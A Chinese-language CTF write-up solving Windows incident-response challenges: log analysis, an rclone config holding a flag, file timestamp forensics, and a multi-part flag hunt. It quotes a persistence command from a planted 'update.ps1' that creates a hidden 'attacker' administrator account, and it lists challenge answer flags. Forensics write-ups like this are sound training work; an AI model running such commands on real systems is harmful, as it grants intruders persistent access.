








# 4 月 Writeup

当月赛遇上周末调休...有点五味杂陈啊，不过比赛还是得打的嘛~

- 时间：4 月 26 日 10:00~18:00
- 附件大小：6 GB 压缩，解压后约 15 GB

::: info 附件分类

- 可疑文件（逆向）：Windows x64 动态链接库
- 应急行动（取证）：Windows Server 2012 R2 虚拟机

:::

## 简单总结

相对上个月，这个月的题目多数相对简单，因此主要还是拼解出题数与速度。

做题的时候，希望你的脑子不会打结...如果一时不知道某个信息该从哪里入手去找，还是有点小痛苦的😅🖐️

这次的逆向题能做出来一大半了（或许多半是难度的原因），但是依然没做好最后处理，需要稍用点力。

## 解题过程

### 可疑文件

还在整理中...

### 应急行动-1

由题意提及服务器被侵入，则需要找到服务器的网络请求日志或流量信息。

经查，服务器上安装了 Rap Server，找到其日志文件 `RealFriend/Rap Server/Logs`，在其中发现了 PHP 任意命令执行的请求：



则答案为 `flag{192.168.56.128 21/04/2025}`。

### 应急行动-2

考虑到流量异常，则先在用户目录范围内寻找浏览器、网盘等类应用，先是在用户的下载目录找到了 `rclone`，是一个 Mega 网盘工具。

由此在用户目录寻找配置文件，可在 `AppData/Roaming/rclone` 下找到含有 Flag 的配置文件：

```ini title="rclone.conf" {5}
[mega_local]
type = s3
provider = Other
access_key_id = AKIAEXAMPLEKEY29654
secret_access_key = EXAMPLE/SecretKey/973975391+f*l*a*g*{oisienfpqwlmdouydrsbhuisjAUGEDW}
endpoint = s3.g.s4.mega.io
acl = private
```

### 应急行动-3

在资源管理器中直接看到的修改时间是被篡改的，尝试后发现并不准确；转而使用 Autopsy 扫描文件系统，可得到正确的修改时间。



::: tip 冷知识？

为何会出现 **Modified Time** 与 **Change Time** 这两个意义近似但完全独立的字段？它们的区别又在哪里？

不同平台上的“修改时间”使用的都是什么时间？

既然一个文件被修改过了，那它的修改时间为何如此奇怪？

:::

此处答案为 `flag{2025-04-21 23:39:28}`。

### 应急行动-4

名义上说是第四题，其实是重量级的存在：**多 part 的 Flag**，不失为是一种折磨。比赛的时候前三个部分都解出来了，第四个部分找了很久，非常极限地失败了...

#### 触手稍微可及的前三个部分

题目中讲到的 `Windows 安全加固手册`，是很明显的提示，可以引导我们寻找 Flag 的方向。探索系统初期，考虑到 Windows 的系统管理配置存储不是那么简单（不是浅显集中、类似 Unix 的文件存储形式），如果有条件还是可以进行仿真的，做起来会很轻松。

> 此虚拟机的处理器所支持的功能不同于保存虚拟机状态的虚拟机的处理器所支持的功能。
>
> 从文件“E:\solar应急响应\Server_2012-Snapshot2.vmsn”还原 CPU 状态时出错。
>
> 错误导致还原操作失败。请取消还原操作并纠正错误，或者放弃快照状态并关闭虚拟机。已保存的快照不会受到影响。

出现这种提示不用太担心，只要保证你手边有这个状态的快照就行。取消恢复之后，先给这个状态**创建一份快照**，然后在启动时**放弃**挂起状态，就可以继续使用，做你想做的事情了~

---

第一部分比较好找，已知有两个地方可以找出来：

- IE 的历史记录（常规路线，在历史记录中出现非网页的记录，是比较不寻常的情况）
- 任务计划中，几个没有注释的任务中有一个（管理员路线）

| IE 路线 | 任务计划路线 |
| :-: | :-: |
|  |  |

```powershell title="update.ps1"
Start-Process "cmd.exe” -ArgumentList "/c net user attacker P@ssw0rd /add && net localgroup administrators attacker /add"
// flag1{zheshi}|
```

获得 `flag1{zheshi}`。

第二部分在系统服务中，可使用按描述排序，先筛一遍不对劲的服务。



获得 `flag2{yige}`。

第三部分在用户列表中。登录的时候，是否发现多出来一个 `Admin` 账户比较可疑？



获得 `flag{ni}`。

#### 并非触手可及的第四部分

::: info 题目提示

若出现从vmss还原CPU状态时出错可参考文章 https://blog.csdn.net/m0_71071763/article/details/145513849 进行配置，**若重启会影响做题**

:::

这道题表面上说需要配置来恢复快照，其实不恢复也没啥大问题，因为我们依然可以使用内存与硬盘的取证工具，来取代虚拟机的仿真功能（毕竟取证这块还是静态分析优先，不是嘛）。

在赛后对照公众号文章复盘时，发现了比赛时被偶然忽视的点：在用户的临时缓存目录下，存放着 VMWare 拖放的临时文件，其中的 `svchost.exe` 即为含有 Flag 的目标文件。



::: tip 冷知识？

VMWare 虚拟机与主机间的无缝拖放是通过什么服务实现的？如何实现？

为什么临时文件夹中会出现拖放的程序文件？

:::

至此，四个部分全部集齐：`flag{zheshiyigenixiangbudaodeflag}`。

### 应急行动-5

通过搜索用户目录下的可执行文件，可以在公用用户根目录发现加密程序。



答案为 `flag{Encryptor123.exe}`。
